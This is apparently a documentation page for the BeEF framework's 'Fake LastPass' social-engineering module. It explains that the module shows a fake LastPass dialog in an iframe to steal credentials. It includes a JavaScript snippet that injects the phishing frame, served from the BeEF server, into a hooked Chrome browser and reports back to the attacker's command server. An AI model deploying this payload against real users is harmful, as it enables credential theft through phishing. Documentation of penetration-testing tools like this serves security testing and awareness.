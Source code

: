 ## Summary

* **Objective**: Fake LastPass
* **Authors**: xntrik, gcattani
* **Browsers**: Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/social_engineering/fake_lastpass)

## Internal Working

This module displays a fake LastPass user dialog via iFrame to steal credentials. The pages are hosted on the beef server.

```js
if (beef.browser.isC()) {
    beef.dom.createIframe('custom', {'src':beef.net.httpproto+'://'+beef.net.host+':'+beef.net.port+'/lp/index.html','id':'LPIFRAME'}, {'width':'294px','height':'352px','position':'fixed','right':'5px','top':'0px','z-index':beef.dom.getHighestZindex()+1,'border':'1px solid white','overflow':'hidden'});
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result=Chrome IFrame Created .. awaiting messages');
```


## Feedback

